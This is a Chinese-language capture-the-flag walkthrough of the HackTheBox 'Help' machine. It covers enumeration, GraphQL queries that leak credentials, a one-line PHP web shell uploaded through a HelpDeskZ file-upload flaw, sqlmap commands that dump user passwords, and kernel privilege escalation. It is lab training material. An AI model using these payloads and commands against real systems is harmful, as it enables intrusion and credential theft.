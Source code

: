 ```yaml
---
title: HackTheBox-Help
data: 2025-3-17 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```




## nmap 

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://help.htb/
|_http-server-header: Apache/2.4.18 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).

```

## dirsearch

### 80端口

![image-20250325215039367](./Help/image-20250325215039367.png)

扫目录先扫到http://10.10.10.121/support，继续扫扫到下面这些目录，

![image-20250325215054785](./Help/image-20250325215054785.png)

在readme中找到版本号为1.0.2

![image-20250325215213772](./Help/image-20250325215213772.png)

该版本存在[SQL注入和任意文件上传](./https://www.exploit-db.com/exploits/41200)

sql注入需要登录

## 3000端口

查看响应头服务器正在运行express框架

搜到express js query language可以查到graphql

![image-20250325220155752](./Help/image-20250325220155752.png)

![image-20250325220215164](./Help/image-20250325220215164.png)

graphql查询语法[Pwning WordPress GraphQL |渗透测试合作伙伴 --- Pwning WordPress GraphQL | Pen Test Partners](./https://www.pentestpartners.com/security-blog/pwning-wordpress-graphql/)

查询有哪些schema

```
http://help.htb:3000/graphql?query={%20__schema{queryType{name,fields{name,description}}}}
```

![image-20250325222021292](./Help/image-20250325222021292.png)

然后查询username和password

```
http://10.10.10.121:3000/graphql?query={user{username,password}}
```

![image-20250325223025651](./Help/image-20250325223025651.png)

```
username	"helpme@helpme.com"
password	"5d3c93182bb20f07b994a7f617e99cff"
```

```
helpme@helpme.com：godhelpmeplz
```

然后使用该账号密码即可登录

## 突破点

上面查询到helpdeskz 1.0.2存在文件上传漏洞和sql注入漏洞，分别都尝试一下

### 文件上传漏洞

漏洞原理，上传之后的文件名命名时会以当前时间戳的MD5值增加扩展之后进行命名，所以存在爆破的可能性[爆破脚本](./https://github.com/b4rt00/helpdeskz-1.0.2-file_upload)

```
$filename = md5($_FILES['attachment']['name'].time()).".".$ext;
```

上传一句话木马

```
<?php @system($__GET[cmd]);?>
```

![image-20250325230535303](./Help/image-20250325230535303.png)

![image-20250325230552221](./Help/image-20250325230552221.png)

然后反弹shell

![image-20250325231940266](./Help/image-20250325231940266.png)

![image-20250325231953338](./Help/image-20250325231953338.png)

### sql注入

[HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download - PHP webapps Exploit](./https://www.exploit-db.com/exploits/41200)

![image-20250325232802730](./Help/image-20250325232802730.png)

注入点就在上传文件之后，文件下载的url中，注入参数为param[]

使用sqlmap爆出用户名和密码

```
sqlmap -r sql1 -p param[] --batch --dbs
```

![image-20250325233139257](./Help/image-20250325233139257.png)

```
sqlmap -r sql1 -p param[] --batch -D support --tables --threads 10
```

![image-20250325234108983](./Help/image-20250325234108983.png)

```
sqlmap -r sql1 -p param[] --batch -D support -T users --columns --threads 10
```

![image-20250325234205817](./Help/image-20250325234205817.png)

```
sqlmap -r sql1 -p param[] --batch -D support -T staff -C username,password --threads 10 --dump
```

![image-20250325235115941](./Help/image-20250325235115941.png)

sql注入得到admin密码

```
admin：Welcome1
```

ssh连接尝试多个用户名，最后help用户成功登录，

该版本存在内核漏洞，内核提权即可

## 提权

该版本存在内核提取漏洞

![image-20250325233659741](./Help/image-20250325233659741.png)

![image-20250325233654056](./Help/image-20250325233654056.png)

本地下载之后上传到靶机，靶机编译之后运行即可

![image-20250325234013436](./Help/image-20250325234013436.png)